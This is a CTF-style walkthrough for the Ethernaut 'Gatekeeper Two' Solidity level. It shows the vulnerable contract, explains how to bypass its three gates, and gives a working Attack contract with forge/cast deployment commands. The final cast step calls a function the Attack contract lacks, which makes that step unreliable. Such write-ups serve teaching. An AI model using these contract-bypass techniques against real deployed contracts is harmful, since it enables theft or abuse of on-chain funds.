 ## Gatekeeper Two Level Outline

**Difficulty : 6/10**

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xdCeA38B2ce1768E1F409B6C65344E81F16bEc38d)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the assembly line `extcodesize(a)` checks the code size as address `a`. To bypass this check, we put our exploit code in the contracts constructor as the contracts code is only stored on the EVM after the constructor finishes calling and setting up it's state. So by calling our exploit in the constructor, `extcodesize` will return 0.

To pass the third modifier `gateThree()`, uses xor cipher to hide a key. But the xor operation has the property 

```
if,
A xor B = C
then,
A xor C = B


uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
A = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) 
B = uint64(_gateKey) 
C = uint64(0) - 1

so, 
uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0)-1
```

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    constructor(address _gateKeeper) {
        GateKeeper gateKeeper = GateKeeper(_gateKeeper);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64)).max);
        gateKeeper.enter(key);
    }
}

interface GateKeeper {
   function enter(bytes8) external returns(bool);
}
```
> notice how we replaced 'uint64(0)-1' with type(uint64).max

##### 2. 

```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[0xSage's write up on this level](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd) goes into more depth on these topics


### [:arrow_left: Back To Main Menu](../README.md)
